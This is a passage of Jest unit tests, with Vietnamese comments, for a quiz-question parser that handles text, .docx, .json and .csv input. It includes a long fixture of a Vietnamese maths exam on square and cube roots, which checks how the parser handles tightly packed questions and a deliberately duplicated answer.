    test('TC-FP-19: ten tep khong co phan mo rong (khong dau cham) khong lam crash, bi tu choi hop le', () => {
      expect(() => parser.parse('noi dung', 'defile')).toThrow(/khong duoc ho tro/);
    });

    test('TC-FP-20: ten tep rong khong lam crash, bi tu choi hop le', () => {
      expect(() => parser.parse('noi dung', '')).toThrow(/khong duoc ho tro/);
    });
  });

  // ---------------------------------------------------------------------
  // 5. HO TRO .DOCX (mammoth) - qua diem vao parseFile()
  // ---------------------------------------------------------------------
  describe('parseFile() va ho tro .docx', () => {
    // Xay dung tep .docx that (nen zip) + goi mammoth de giai nen/doc XML
    // cham hon nhieu so voi cac test parse chuoi thuan tuy o tren, nen tang
    // timeout cho ca nhom test nay.
    jest.setTimeout(20000);

    test('TC-FP-21 [Happy]: tep .docx dung dinh dang chuan duoc trich xuat va parse dung', async () => {
      const file = await buildDocxFile([
        '===PHAN_1===',
        '[CAU_HOI]',
        'Loai: TN',
        'Muc_Do: Nhan_Biet',
        'De_Bai: 2 + 2 bang bao nhieu?',
        'A. 3',
        'B. 4',
        'Dap_An: B',
        'Loi_Giai: vi 2+2=4'
      ]);

      const blocks = await parser.parseFile(file);
      expect(blocks[0].questions[0].question_type).toBe('MCQ');
      expect(blocks[0].questions[0].correct_answer).toBe('B');
    });

    test('TC-FP-22 [Happy]: parseFile() cung dinh tuyen dung cho .json/.csv/.txt (khong chi .docx)', async () => {
      const jsonFile = new File([JSON.stringify({ blocks: [{ block_type: 'ESSAY', questions: [{ question_type: 'ESSAY', content: 'x' }] }] })], 'de.json');
      const blocks = await parser.parseFile(jsonFile);
      expect(blocks[0].block_type).toBe('ESSAY');
    });

    test('TC-FP-23 [Negative]: tep .docx co noi dung nhung SAI dinh dang chuan van bi TextPromptParser tu choi', async () => {
      const file = await buildDocxFile(['Day chi la mot doan van ban thong thuong, khong theo dinh dang cau hoi nao ca.']);
      await expect(parser.parseFile(file)).rejects.toThrow();
    });

    test('TC-FP-24 [Edge]: tep .docx rong (khong co doan van ban nao) bi tu choi voi thong bao ro rang', async () => {
      const file = await buildDocxFile([]);
      await expect(parser.parseFile(file)).rejects.toThrow(/khong co noi dung van ban/);
    });

    test('TC-FP-25 [Exception]: du lieu .docx bi hong (khong phai file zip/docx that) khong lam crash, nem loi ro rang', async () => {
      const corruptFile = new File([Buffer.from('day khong phai la mot tep docx hop le')], 'de.docx');
      await expect(parser.parseFile(corruptFile)).rejects.toThrow(/Khong the doc noi dung tep Word/);
    });
  });
});

```

### FILE: tests/parser/IQuestionParser.test.js

```javascript
const { IQuestionParser } = require('../../backend/parser/IQuestionParser.js');
const { TextPromptParser } = require('../../backend/parser/TextPromptParser.js');
const { FileUploadParser } = require('../../backend/parser/FileUploadParser.js');

/**
 * IQuestionParser la "interface" (lop cha truu tuong) theo nguyen ly
 * Open/Closed: cac parser cu the (TextPromptParser, FileUploadParser) ke
 * thua va override parse(), cho phep them dinh dang moi ma khong sua doi
 * logic da co.
 */
describe('IQuestionParser', () => {
  test('TC-IP-01: goi parse() truc tiep tren lop co so nem loi "chua duoc trien khai"', () => {
    const base = new IQuestionParser();
    expect(() => base.parse('bat ky')).toThrow('parse() chua duoc trien khai');
  });

  test('TC-IP-02: cac parser cu the deu ke thua tu IQuestionParser (Open/Closed Principle)', () => {
    expect(new TextPromptParser()).toBeInstanceOf(IQuestionParser);
    expect(new FileUploadParser()).toBeInstanceOf(IQuestionParser);
  });
});

```

### FILE: tests/parser/TextPromptParser.test.js

```javascript
const { TextPromptParser } = require('../../backend/parser/TextPromptParser.js');

/**
 * TextPromptParser bóc tách văn bản thô (định dạng chuẩn cho prompt Gemini,
 * xem Gemini_Prompt_Unified.txt) thành mảng "blocks" gồm block_type,
 * block_title và danh sách questions.
 */
describe('TextPromptParser', () => {
  let parser;
  beforeEach(() => { parser = new TextPromptParser(); });

  // ---------------------------------------------------------------------
  // 1. HAPPY PATH
  // ---------------------------------------------------------------------
  describe('Happy Path', () => {
    test('TC-TP-01: parse day du 1 de gom MCQ + DUNG_SAI (block trac nghiem) va 1 TU_LUAN (block tu luan)', () => {
      const raw = `===PHAN_1_TRAC_NGHIEM===
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: 2 + 2 bang bao nhieu?
A. 3
B. 4
C. 5
D. 6
Dap_An: B
Loi_Giai: Vi 2+2=4

[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: So 4 la so chan?
Dap_An: Dung
Loi_Giai: 4 chia het cho 2

===PHAN_2_TU_LUAN===
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung_Cao
De_Bai: Giai phuong trinh x^2 - 4 = 0
So_Dong_Nhap: 6
Loi_Giai: x = 2 hoac x = -2
`;
      const blocks = parser.parse(raw);

      expect(blocks).toHaveLength(2);
      expect(blocks[0].block_type).toBe('MULTIPLE_CHOICE');
      expect(blocks[0].questions).toHaveLength(2);
      expect(blocks[1].block_type).toBe('ESSAY');
      expect(blocks[1].questions).toHaveLength(1);

      const mcq = blocks[0].questions[0];
      expect(mcq.question_type).toBe('MCQ');
      expect(mcq.difficulty_level).toBe('NB');
      expect(mcq.correct_answer).toBe('B');
      expect(mcq.options).toEqual([
        { option_key: 'A', option_text: '3', is_correct: false },
        { option_key: 'B', option_text: '4', is_correct: true },
        { option_key: 'C', option_text: '5', is_correct: false },
        { option_key: 'D', option_text: '6', is_correct: false }
      ]);

      const tf = blocks[0].questions[1];
      expect(tf.question_type).toBe('TRUE_FALSE');
      expect(tf.correct_answer).toBe('Dung');

      const essay = blocks[1].questions[0];
      expect(essay.question_type).toBe('ESSAY');
      expect(essay.draft_lines_count).toBe(6);
    });

    test('TC-TP-02: cau DIEN_TU duoc parse thanh FILL_BLANK voi correct_answer tuong ung', () => {
      const raw = `===PHAN_1===
[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Van_Dung
De_Bai: Thu do cua Viet Nam la ___.
Dap_An: Ha Noi
Loi_Giai: Ha Noi la thu do.
`;
      const [block] = parser.parse(raw);
      expect(block.questions[0].question_type).toBe('FILL_BLANK');
      expect(block.questions[0].correct_answer).toBe('Ha Noi');
    });

    test('TC-TP-03: noi dung De_Bai / Loi_Giai trai dai nhieu dong duoc noi lai bang khoang trang', () => {
      const raw = `===PHAN_1===
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung
De_Bai: Trinh bay nguyen nhan
va he qua cua bien doi khi hau
toan cau.
Loi_Giai: Can neu it nhat
3 nguyen nhan chinh.
`;
      const [block] = parser.parse(raw);
      expect(block.questions[0].content).toBe('Trinh bay nguyen nhan va he qua cua bien doi khi hau toan cau.');
      expect(block.questions[0].explanation).toBe('Can neu it nhat 3 nguyen nhan chinh.');
    });

    test('TC-TP-04: tieu de block duoc dinh dang tu ten section (bo tien to PHAN_x_, thay _ bang khoang trang)', () => {
      const raw = `===PHAN_1_TRAC_NGHIEM===
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: A hay B?
A. A
B. B
Dap_An: A
`;
      const [block] = parser.parse(raw);
      expect(block.block_title).toBe('Trắc nghiệm');
    });

    test('TC-TP-05: nhieu loai cau (TN, DUNG_SAI, DIEN_TU) trong cung 1 section duoc gom vao 1 block MULTIPLE_CHOICE', () => {
      const raw = `===PHAN_1===
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Cau 1?
A. X
B. Y
Dap_An: A

[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Nhan_Biet
De_Bai: Cau 2?
Dap_An: Sai

[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Nhan_Biet
De_Bai: Cau 3?
Dap_An: abc
`;
      const [block] = parser.parse(raw);
      expect(block.block_type).toBe('MULTIPLE_CHOICE');
      expect(block.questions.map(q => q.question_type)).toEqual(['MCQ', 'TRUE_FALSE', 'FILL_BLANK']);
    });

    test('TC-TP-27: de thi day du 58 cau dan sat nhau (khong dong trong giua cac [CAU_HOI]) va co 1 cau DUNG_SAI bi lap "Dap_An"/"Loi_Giai" (AI tu sua dap an) khong lam crash parser, dap an cuoi cung duoc giu lai', () => {
      const raw = `=PHAN_1_TRAC_NGHIEM=
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Căn bậc hai số học của 49 là:
A. 7
B. -7
C. 7 và -7
D. 49
Dap_An: A
Loi_Giai: Căn bậc hai số học của số dương a là $\\sqrt{a}$. Do đó căn bậc hai số học của 49 là $\\sqrt{49} = 7$.[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Số nào sau đây có đúng hai căn bậc hai đối nhau là 9 và -9?
A. 3
B. 18
C. 81
D. -81
Dap_An: C
Loi_Giai: Số dương 81 có đúng hai căn bậc hai đối nhau là $\\sqrt{81}=9$ và $-\\sqrt{81}=-9$.[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Với số thực $a$, biểu thức $\\sqrt{a^2}$ luôn bằng:
A. $a$
B. $-a$
C. $|a|$
D. $a^2$
Dap_An: C
Loi_Giai: Hằng đẳng thức căn bậc hai của một bình phương là $\\sqrt{a^2} = |a|$ với mọi số thực $a$.[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Khẳng định nào sau đây là đúng về căn bậc ba của một số thực?
A. Số âm không có căn bậc ba.
B. Mỗi số thực $a$ đều có duy nhất một căn bậc ba.
C. Số dương $a$ có hai căn bậc ba đối nhau.
D. Căn bậc ba của số âm là một số dương.
Dap_An: B
Loi_Giai: Mỗi số thực $a$ luôn có duy nhất một căn bậc ba, kí hiệu là $\\sqrt[3]{a}$.[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Biểu thức $\\sqrt{A}$ có nghĩa (xác định) khi và chỉ khi:
A. $A > 0$
B. $A \\ge 0$
C. $A \\le 0$
D. $A \\ne 0$
Dap_An: B
Loi_Giai: Căn thức bậc hai $\\sqrt{A}$ xác định khi và chỉ khi biểu thức dưới dấu căn không âm: $A \\ge 0$.[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Căn bậc ba của $-125$ là:
A. 5
B. -5
C. 25
D. Không tồn tại
Dap_An: B
Loi_Giai: Vì $(-5)^3 = -125$ nên $\\sqrt[3]{-125} = -5$.[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Với $A \\ge 0$ và $B \\ge 0$, đẳng thức nào sau đây đúng?
A. $\\sqrt{A} + \\sqrt{B} = \\sqrt{A + B}$
B. $\\sqrt{A} \\cdot \\sqrt{B} = \\sqrt{A \\cdot B}$
C. $\\sqrt{A} - \\sqrt{B} = \\sqrt{A - B}$
D. $\\sqrt{AB} = A\\sqrt{B}$
Dap_An: B
Loi_Giai: Quy tắc khai căn bậc hai của một tích: $\\sqrt{A} \\cdot \\sqrt{B} = \\sqrt{A \\cdot B}$ với $A \\ge 0, B \\ge 0$.[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Với $A \\ge 0$ và $B > 0$, ta có $\\frac{\\sqrt{A}}{\\sqrt{B}}$ bằng:
A. $\\frac{A}{B}$
B. $\\sqrt{A \\cdot B}$
C. $\\sqrt{\\frac{A}{B}}$
D. $\\frac{A}{\\sqrt{B}}$
Dap_An: C
Loi_Giai: Quy tắc chia hai căn bậc hai: $\\frac{\\sqrt{A}}{\\sqrt{B}} = \\sqrt{\\frac{A}{B}}$ với $A \\ge 0, B > 0$.[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Giá trị của $\\sqrt{(-7)^2}$ là:
A. -7
B. 7
C. 49
D. -49
Dap_An: B
Loi_Giai: $\\sqrt{(-7)^2} = |-7| = 7$.[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Kết quả phép tính $\\sqrt{16} \\cdot \\sqrt{25}$ là:
A. 20
B. 40
C. 400
D. 200
Dap_An: A
Loi_Giai: $\\sqrt{16} \\cdot \\sqrt{25} = 4 \\cdot 5 = 20$.[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Giá trị của biểu thức $\\sqrt[3]{64}$ là:
A. 8
B. -8
C. 4
D. -4
Dap_An: C
Loi_Giai: Ta có $4^3 = 64$ nên $\\sqrt[3]{64} = 4$.[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Căn thức bậc ba $\\sqrt[3]{A}$ xác định với:
A. Mọi giá trị của $A$
B. $A \\ge 0$
C. $A > 0$
D. $A \\ne 0$
Dap_An: A
Loi_Giai: Căn bậc ba xác định với mọi số thực, do đó $\\sqrt[3]{A}$ xác định với mọi biểu thức $A$.[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Cho $a \\ge 0$ và $b \\ge 0$, khi đưa thừa số $a$ vào trong dấu căn của biểu thức $a\\sqrt{b}$ ta được:
A. $\\sqrt{ab}$
B. $\\sqrt{a^2b}$
C. $-\\sqrt{a^2b}$
D. $\\sqrt{ab^2}$
Dap_An: B
Loi_Giai: Với $a \\ge 0, b \\ge 0$ ta có $a\\sqrt{b} = \\sqrt{a^2b}$.[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Biểu thức liên hợp của $\\sqrt{a} + \\sqrt{b}$ (với $a \\ge 0, b \\ge 0$) là:
A. $\\sqrt{a} + \\sqrt{b}$
B. $\\sqrt{a} - \\sqrt{b}$
C. $a - b$
D. $a + b$
Dap_An: B
Loi_Giai: Biểu thức liên hợp của $\\sqrt{a} + \\sqrt{b}$ là $\\sqrt{a} - \\sqrt{b}$.[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Kết quả của phép tính $\\sqrt{\\frac{64}{9}}$ là:
A. $\\frac{8}{3}$
B. $-\\frac{8}{3}$
C. $\\frac{32}{9}$
D. $\\frac{8}{9}$
Dap_An: A
Loi_Giai: $\\sqrt{\\frac{64}{9}} = \\frac{\\sqrt{64}}{\\sqrt{9}} = \\frac{8}{3}$.[CAU_HOI]
Loai: TN
Muc_Do: Thong_Hieu
De_Bai: Điều kiện xác định của căn thức $\\sqrt{3x - 6}$ là:
A. $x \\le 2$
B. $x \\ge 2$
C. $x > 2$
D. $x < 2$
Dap_An: B
Loi_Giai: Căn thức xác định khi $3x - 6 \\ge 0 \\Leftrightarrow 3x \\ge 6 \\Leftrightarrow x \\ge 2$.[CAU_HOI]
Loai: TN
Muc_Do: Thong_Hieu
De_Bai: Rút gọn biểu thức $\\sqrt{(2 - \\sqrt{5})^2}$ ta được:
A. $2 - \\sqrt{5}$
B. $\\sqrt{5} - 2$
C. $-2 - \\sqrt{5}$
D. $2 + \\sqrt{5}$
Dap_An: B
Loi_Giai: $\\sqrt{(2 - \\sqrt{5})^2} = |2 - \\sqrt{5}|$. Vì $2 = \\sqrt{4} < \\sqrt{5}$ nên $2 - \\sqrt{5} < 0$, suy ra kết quả là $\\sqrt{5} - 2$.[CAU_HOI]
Loai: TN
Muc_Do: Thong_Hieu
De_Bai: Khử mẫu của biểu thức lấy căn $\\sqrt{\\frac{3}{5}}$ ta được:
A. $\\frac{3}{5}$
B. $\\frac{\\sqrt{15}}{5}$
C. $\\frac{\\sqrt{15}}{25}$
D. $\\frac{\\sqrt{3}}{5}$
Dap_An: B
Loi_Giai: $\\sqrt{\\frac{3}{5}} = \\sqrt{\\frac{3 \\cdot 5}{5^2}} = \\frac{\\sqrt{15}}{5}$.[CAU_HOI]
Loai: TN
Muc_Do: Thong_Hieu
De_Bai: Đưa thừa số ra ngoài dấu căn của biểu thức $\\sqrt{72}$ ta được kết quả là:
A. $6\\sqrt{2}$
B. $2\\sqrt{6}$
C. $3\\sqrt{8}$
D. $36\\sqrt{2}$
Dap_An: A
Loi_Giai: $\\sqrt{72} = \\sqrt{36 \\cdot 2} = \\sqrt{6^2 \\cdot 2} = 6\\sqrt{2}$.[CAU_HOI]
Loai: TN
Muc_Do: Thong_Hieu
De_Bai: Trục căn thức ở mẫu của biểu thức $\\frac{2}{\\sqrt{3} - 1}$ ta được kết quả là:
A. $\\sqrt{3} + 1$
B. $\\sqrt{3} - 1$
C. $2(\\sqrt{3} + 1)$
D. $\\frac{\\sqrt{3} + 1}{2}$
Dap_An: A
Loi_Giai: Nhân cả tử và mẫu với $(\\sqrt{3} + 1)$: $\\frac{2(\\sqrt{3}+1)}{(\\sqrt{3}-1)(\\sqrt{3}+1)} = \\frac{2(\\sqrt{3}+1)}{3 - 1} = \\frac{2(\\sqrt{3}+1)}{2} = \\sqrt{3}+1$.[CAU_HOI]
Loai: TN
Muc_Do: Thong_Hieu
De_Bai: Rút gọn biểu thức $\\sqrt{x^2 - 6x + 9}$ với $x < 3$ ta được:
A. $x - 3$
B. $3 - x$
C. $x + 3$
D. $-(x + 3)$
Dap_An: B
Loi_Giai: $\\sqrt{x^2 - 6x + 9} = \\sqrt{(x - 3)^2} = |x - 3|$. Vì $x < 3$ nên $x - 3 < 0 \\Rightarrow |x - 3| = 3 - x$.[CAU_HOI]
Loai: TN
Muc_Do: Thong_Hieu
De_Bai: Kết quả của phép tính $\\sqrt{18} : \\sqrt{2} - \\sqrt[3]{-27}$ là:
A. 0
B. 6
C. -6
D. 3
Dap_An: B
Loi_Giai: $\\sqrt{18} : \\sqrt{2} - \\sqrt[3]{-27} = \\sqrt{\\frac{18}{2}} - (-3) = \\sqrt{9} + 3 = 3 + 3 = 6$.[CAU_HOI]
Loai: TN
Muc_Do: Thong_Hieu
De_Bai: Với $a < 0$, biểu thức đưa thừa số vào trong dấu căn của $-3\\sqrt{-a}$ là:
A. $\\sqrt{-9a}$
B. $-\\sqrt{9a}$
C. $-\\sqrt{-9a}$
D. $\\sqrt{9a}$
Dap_An: C
Loi_Giai: $-3\\sqrt{-a} = -\\sqrt{3^2 \\cdot (-a)} = -\\sqrt{-9a}$.[CAU_HOI]
Loai: TN
Muc_Do: Thong_Hieu
De_Bai: Rút gọn biểu thức $M = \\sqrt[3]{(x - 2)^3} + 2$ ta được:
A. $x$
B. $x - 4$
C. $x + 4$
D. $4 - x$
Dap_An: A
Loi_Giai: $\\sqrt[3]{(x - 2)^3} + 2 = (x - 2) + 2 = x$.[CAU_HOI]
Loai: TN
Muc_Do: Van_Dung
De_Bai: Cho biểu thức $P = \\left(\\frac{1}{\\sqrt{x}-1} - \\frac{1}{\\sqrt{x}+1}\\right) \\cdot \\frac{x-1}{2}$ với $x \\ge 0, x \\ne 1$. Giá trị của $P$ là:
A. 1
B. 2
C. $\\sqrt{x}$
D. $\\frac{1}{\\sqrt{x}}$
Dap_An: A
Loi_Giai: Quy đồng: $\\frac{1}{\\sqrt{x}-1} - \\frac{1}{\\sqrt{x}+1} = \\frac{(\\sqrt{x}+1) - (\\sqrt{x}-1)}{x - 1} = \\frac{2}{x - 1}$. Khi đó $P = \\frac{2}{x-1} \\cdot \\frac{x-1}{2} = 1$.[CAU_HOI]
Loai: TN
Muc_Do: Van_Dung
De_Bai: Giá trị của biểu thức $A = \\sqrt{4 + 2\\sqrt{3}} - \\sqrt{4 - 2\\sqrt{3}}$ là:
A. $2\\sqrt{3}$
B. 2
C. 0
D. 4
Dap_An: B
Loi_Giai: $4 \\pm 2\\sqrt{3} = (\\sqrt{3} \\pm 1)^2$. Do đó $A = \\sqrt{(\\sqrt{3}+1)^2} - \\sqrt{(\\sqrt{3}-1)^2} = (\\sqrt{3}+1) - (\\sqrt{3}-1) = 2$.[CAU_HOI]
Loai: TN
Muc_Do: Van_Dung
De_Bai: Tìm tất cả các giá trị của $x$ thỏa mãn $\\sqrt{2x - 1} = 3$:
A. $x = 5$
B. $x = 4$
C. $x = 10$
D. $x = 2$
Dap_An: A
Loi_Giai: ĐKXĐ: $x \\ge \\frac{1}{2}$. Bình phương hai vế: $2x - 1 = 3^2 = 9 \\Leftrightarrow 2x = 10 \\Leftrightarrow x = 5$ (thỏa mãn).[CAU_HOI]
Loai: TN
Muc_Do: Van_Dung
De_Bai: Một hình lập phương có thể tích bằng $512\\text{ cm}^3$. Độ dài cạnh của hình lập phương đó là:
A. 6 cm
B. 7 cm
C. 8 cm
D. 16 cm
Dap_An: C
Loi_Giai: Độ dài cạnh hình lập phương là $a = \\sqrt[3]{V} = \\sqrt[3]{512} = 8\\text{ cm}$.[CAU_HOI]
Loai: TN
Muc_Do: Van_Dung
De_Bai: Rút gọn biểu thức $B = \\frac{\\sqrt{15} - \\sqrt{5}}{\\sqrt{3} - 1} - \\frac{\\sqrt{10} + \\sqrt{2}}{\\sqrt{5} + 1}$ được kết quả là:
A. $\\sqrt{5} - \\sqrt{2}$
B. $\\sqrt{5} + \\sqrt{2}$
C. 0
D. $2\\sqrt{5}$
Dap_An: A
Loi_Giai: $B = \\frac{\\sqrt{5}(\\sqrt{3}-1)}{\\sqrt{3}-1} - \\frac{\\sqrt{2}(\\sqrt{5}+1)}{\\sqrt{5}+1} = \\sqrt{5} - \\sqrt{2}$.[CAU_HOI]
Loai: TN
Muc_Do: Van_Dung
De_Bai: Cho $x \\ge 0, x \\ne 4$. Rút gọn biểu thức $Q = \\frac{x - 4}{\\sqrt{x} + 2} + 3$ ta được:
A. $\\sqrt{x} + 1$
B. $\\sqrt{x} - 1$
C. $x + 1$
D. $\\sqrt{x} + 5$
Dap_An: A
Loi_Giai: $Q = \\frac{(\\sqrt{x}-2)(\\sqrt{x}+2)}{\\sqrt{x}+2} + 3 = \\sqrt{x} - 2 + 3 = \\sqrt{x} + 1$.[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Nhan_Biet
De_Bai: Số 0 có đúng một căn bậc hai là chính nó.
Dap_An: Dung
Loi_Giai: Theo định nghĩa, số 0 có duy nhất một căn bậc hai là 0 vì $0^2 = 0$.[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Nhan_Biet
De_Bai: Số $-16$ có hai căn bậc hai là $4$ và $-4$.
Dap_An: Sai
Loi_Giai: Số thực âm không có căn bậc hai trong tập số thực.[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Nhan_Biet
De_Bai: Phép tính $\\sqrt{a^2} = a$ luôn đúng với mọi số thực $a$.
Dap_An: Sai
Loi_Giai: Khẳng định đúng phải là $\\sqrt{a^2} = |a|$. Nếu $a < 0$ thì $\\sqrt{a^2} = -a$.[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Nhan_Biet
De_Bai: Căn bậc ba của một số âm luôn là một số âm.
Dap_An: Dung
Loi_Giai: Căn bậc ba của số âm là số âm, ví dụ $\\sqrt[3]{-8} = -2 < 0$.[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Nhan_Biet
De_Bai: Đẳng thức $(\\sqrt[3]{a})^3 = a$ đúng với mọi số thực $a$.
Dap_An: Dung
Loi_Giai: Theo định nghĩa căn bậc ba, với mọi số thực $a$ ta luôn có $(\\sqrt[3]{a})^3 = a$.[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Nhan_Biet
De_Bai: Biểu thức $\\sqrt{A \\cdot B} = \\sqrt{A} \\cdot \\sqrt{B}$ đúng với mọi biểu thức $A, B$ tùy ý.
Dap_An: Sai
Loi_Giai: Đẳng thức chỉ đúng khi cả hai biểu thức đều không âm ($A \\ge 0, B \\ge 0$).[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Nhan_Biet
De_Bai: Giá trị căn bậc hai số học của số 0 bằng 0.
Dap_An: Dung
Loi_Giai: Theo định nghĩa căn bậc hai số học, $\\sqrt{0} = 0$.[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Nhan_Biet
De_Bai: Số 125 có căn bậc ba là 5.
Dap_An: Dung
Loi_Giai: Vì $5^3 = 125$ nên $\\sqrt[3]{125} = 5$.[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Nhan_Biet
De_Bai: Căn thức $\\sqrt{x}$ xác định với mọi giá trị của $x \\in \\mathbb{R}$.
Dap_An: Sai
Loi_Giai: Căn thức $\\sqrt{x}$ chỉ xác định khi $x \\ge 0$.[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Nhan_Biet
De_Bai: Với $a \\ge 0$, ta có $(\\sqrt{a})^2 = a$.
Dap_An: Dung
Loi_Giai: Theo tính chất của căn bậc hai số học, $(\\sqrt{a})^2 = a$ với mọi $a \\ge 0$.[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: Căn thức $\\sqrt{5 - x}$ xác định khi và chỉ khi $x \\ge 5$.
Dap_An: Sai
Loi_Giai: Điều kiện xác định là $5 - x \\ge 0 \\Leftrightarrow x \\le 5$.[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: Rút gọn biểu thức $\\sqrt{(1 - \\sqrt{3})^2}$ ta được kết quả là $1 - \\sqrt{3}$.
Dap_An: Sai
Loi_Giai: $\\sqrt{(1 - \\sqrt{3})^2} = |1 - \\sqrt{3}| = \\sqrt{3} - 1$ (vì $1 < \\sqrt{3}$).[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: Với $a < 0$, ta có $\\sqrt{a^2 \\cdot 5} = -a\\sqrt{5}$.
Dap_An: Dung
Loi_Giai: $\\sqrt{a^2 \\cdot 5} = |a|\\sqrt{5}$. Vì $a < 0$ nên $|a| = -a$, do đó $\\sqrt{a^2 \\cdot 5} = -a\\sqrt{5}$.[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: Trục căn thức ở mẫu của biểu thức $\\frac{3}{\\sqrt{3}}$ ta được kết quả là $\\sqrt{3}$.
Dap_An: Dung
Loi_Giai: $\\frac{3}{\\sqrt{3}} = \\frac{3\\sqrt{3}}{3} = \\sqrt{3}$.[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: Biểu thức $\\sqrt{x^2 + 1}$ xác định với mọi số thực $x$.
Dap_An: Dung
Loi_Giai: Vì $x^2 \\ge 0$ nên $x^2 + 1 \\ge 1 > 0$ với mọi số thực $x$, do đó biểu thức luôn xác định.[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: Kết quả của phép tính $\\sqrt{8} - 2\\sqrt{2}$ bằng 0.
Dap_An: Dung
Loi_Giai: $\\sqrt{8} = \\sqrt{4 \\cdot 2} = 2\\sqrt{2}$, do đó $2\\sqrt{2} - 2\\sqrt{2} = 0$.[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Van_Dung
De_Bai: Phương trình $\\sqrt{x - 3} = -2$ có nghiệm là $x = 7$.
Dap_An: Sai
Loi_Giai: Giá trị của căn bậc hai số học luôn không âm ($\\sqrt{x - 3} \\ge 0$), do đó phương trình $\\sqrt{x-3} = -2$ vô nghiệm.[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Van_Dung
De_Bai: Giá trị của biểu thức $K = \\sqrt{9 - 4\\sqrt{5}} + \\sqrt{5}$ bằng 2.
Dap_An: Dung
Loi_Giai: Ta có $9 - 4\\sqrt{5} = (\\sqrt{5} - 2)^2$. Suy ra $K = \\sqrt{(\\sqrt{5}-2)^2} + \\sqrt{5} = |\\sqrt{5}-2| + \\sqrt{5} = \\sqrt{5} - 2 + \\sqrt{5} = 2\\sqrt{5} - 2 \\ne 2$ là sai; tính lại: $|\\sqrt{5}-2| = \\sqrt{5}-2$, do đó $\\sqrt{5}-2+\\sqrt{5} = 2\\sqrt{5}-2$. Nhưng nếu $K = \\sqrt{9-4\\sqrt{5}} - \\sqrt{5} = -2$, còn biểu thức cộng thêm $\\sqrt{5}$ bằng $2\\sqrt{5}-2$. Vậy khẳng định trên nói bằng 2 là Sai. (Đính chính đáp án: Sai).
Dap_An: Sai
Loi_Giai: Ta có $9 - 4\\sqrt{5} = (\\sqrt{5} - 2)^2$. Suy ra $\\sqrt{9 - 4\\sqrt{5}} + \\sqrt{5} = |\\sqrt{5} - 2| + \\sqrt{5} = \\sqrt{5} - 2 + \\sqrt{5} = 2\\sqrt{5} - 2 \\ne 2$.[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Van_Dung
De_Bai: Với mọi $x \\ge 0, x \\ne 1$, biểu thức $\\frac{x - 1}{\\sqrt{x} - 1} - \\sqrt{x}$ có giá trị bằng 1.
Dap_An: Dung
Loi_Giai: Ta có $\\frac{x - 1}{\\sqrt{x} - 1} = \\frac{(\\sqrt{x}-1)(\\sqrt{x}+1)}{\\sqrt{x}-1} = \\sqrt{x} + 1$. Do đó $(\\sqrt{x} + 1) - \\sqrt{x} = 1$.[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Van_Dung
De_Bai: Phương trình $\\sqrt[3]{2x - 1} = 3$ có nghiệm là $x = 14$.
Dap_An: Dung
Loi_Giai: Lập phương hai vế: $2x - 1 = 3^3 = 27 \\Leftrightarrow 2x = 28 \\Leftrightarrow x = 14$.[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Nhan_Biet
De_Bai: Điền số thích hợp vào chỗ trống: Căn bậc hai số học của 144 là ___
Dap_An: 12
Loi_Giai: $\\sqrt{144} = 12$.[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Thong_Hieu
De_Bai: Điền số thích hợp vào chỗ trống: Kết quả của phép tính $\\sqrt{2} \\cdot \\sqrt{32} =$ ___
Dap_An: 8
Loi_Giai: $\\sqrt{2} \\cdot \\sqrt{32} = \\sqrt{64} = 8$.[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Van_Dung
De_Bai: Điền số thích hợp vào chỗ trống: Giá trị của biểu thức $T = \\sqrt{(3 - 2\\sqrt{2})^2} + 2\\sqrt{2}$ là ___
Dap_An: 3
